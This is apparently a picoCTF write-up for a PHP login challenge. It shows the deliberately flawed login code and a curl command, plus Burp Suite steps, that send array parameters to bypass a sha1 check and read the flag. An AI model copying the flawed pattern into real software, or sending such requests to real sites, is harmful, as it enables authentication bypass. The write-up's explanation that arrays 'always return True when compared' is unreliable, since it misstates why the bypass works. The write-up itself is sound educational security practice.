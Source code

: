 # URL
https://play.picoctf.org/practice/challenge/467?category=1&page=2
# Category
Web App
# Concept
* PHP Type Juggling
* If you compare arrays versus other arrays, it doesn't matter what the content of the arrays are, if the types are being juggled, they will always return True when compared
# Method of solve
* go to the PHP login page
* there is a backup for the PHP file at the following endpoint
`http://verbal-sleep.picoctf.net:63131/impossibleLogin.php~`
* this is the code being used:
```
<?php
if(isset($_POST['username']) && isset($_POST['pwd'])) {
    $username = $_POST['username'];
    $password = $_POST['pwd'];
    
    if($username == $password) {
        echo "<br/>Failed! No flag for you";
    } else {
        if(sha1($username) === sha1($password)) {
            echo file_get_contents("../flag.txt");
        } else {
            echo "<br/>Failed! No flag for you";
        }
    }
}
?>
```
* according to this code, it's checking two things
1) It's checking if the username and password are not the same value
2) It's checking if the SHA1 hash of the username and password are the same value
* the only way to achieve both of these requirements is use PHP type juggling: in this case, we can specify that both the username and the password are arrays, which always return True when compared
* with curl, we can use the following command:
```
curl -X POST -d 'username%5B%5D=test1&pwd%5B%5D=test2' http://verbal-sleep.picoctf.net:63131/impossibleLogin.php
```
* alternatively, we can inspect the request in Burp Suite and use the repeater to send the POST data with `username[]=123` and `pwd[]=456` as arrays
